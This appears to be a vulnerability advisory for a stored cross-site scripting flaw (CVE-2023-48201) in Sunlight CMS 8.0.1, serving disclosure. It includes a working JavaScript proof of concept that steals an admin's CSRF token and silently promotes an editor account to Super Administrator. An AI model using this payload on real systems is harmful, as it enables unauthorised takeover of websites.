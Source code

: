 # CVE-2023-48201: Stored Cross-Site Scripting (XSS) in Create/Edit Article function in Sunlight CMS 8.0.1 

> https://github.com/sunlight-cms/sunlight-cms

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can create and edit Articles, is able to inject malicious Javascript code to the 'Content' text editor. After the Article is approved and an Administrator or Super Administrator views the Article, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and add it to the group 'Editors'.
2. Create an article as the user 'editor1'.
3. Approve the Article as a Super Administrator.
4. Inject the malicious code in the article as user 'editor1'.
5. View the Article as Super Administrator.
6. Verify that the user 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can create/edit Articles can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize Article content before inserting it in the database.

# Proof of Concept code
Add the article text in HTML and then add the following code:

```js
<script>
/* Get a CSRF token from the change account form and use it to escalate a user to Super Admin */
var csrf_token;
var xhrGET_users_edit = new XMLHttpRequest();
xhrGET_users_edit.responseType = "document";
xhrGET_users_edit.onreadystatechange = function() {
	if (this.readyState == 4 && this.status == 200) {
		// Typical action to be performed when the document is ready:
		var doc = this.responseXML ;
		csrf_token = doc.getElementsByName("_security_token")[0].value;
		//console.log(csrf_token);
        
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&id=editor1", true);
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
        xhr.withCredentials = true;
        var body = "username=editor1&publicname=editor1&email=editor1%40test.tk&password=&group_id=1&wysiwyg=1&public=1&note=&_security_token="+csrf_token;
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
	}
};
xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&id=editor1", true);
xhrGET_users_edit.send();
</script>
```
